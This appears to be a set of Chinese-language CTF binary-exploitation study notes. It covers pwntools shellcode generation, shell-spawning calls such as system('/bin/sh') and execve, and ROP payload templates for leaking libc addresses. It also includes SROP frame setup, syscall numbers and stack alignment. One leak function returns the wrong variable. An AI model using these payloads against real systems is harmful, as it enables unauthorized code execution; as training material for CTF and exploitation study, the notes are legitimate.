

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |    |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：


则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read  |
|  1  |  write  |
|  15  |  rt_sigreturn  |
|  59  |  execve  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令



> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况


## 0x007-常用汇编指令

|  汇编语言  |  机器码  |  含义  |
|  :----:  | :----:  | :----:  |
|  leave  |  0xc9  | mov esp, ebp; <br> pop ebp; |